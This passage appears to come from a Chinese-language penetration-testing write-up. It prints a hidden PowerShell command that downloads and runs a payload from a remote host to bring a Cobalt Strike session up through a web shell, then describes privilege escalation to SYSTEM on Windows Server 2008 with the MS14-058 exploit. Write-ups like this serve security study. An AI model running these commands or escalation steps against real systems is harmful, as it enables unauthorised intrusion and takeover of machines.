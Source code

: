 ```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.111.128:80/a'))"
```

在冰蝎里执行生成的命令即可上线cs

![截图](cc216c659e23664b74efd2066e55fd45.png)

![截图](452cc5d12081e400f867f82b81d068b5.png)

## 3.2 权限提升

总之，上线成功后，尝试提权，通过msf直接提权不成功，由于是win2008，因此直接使用MS14-058提权，用的以下工具：`https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-058`可以。不过这里更快的方法是先派发给cs，在cs上直接就能提权成功了。

ms14-058 提到 system 权限

![截图](4952363c305fc56c8ce1ead32656434e.png)

![截图](3fdd5b5d00c38abedf21e82e43b0d106.png)
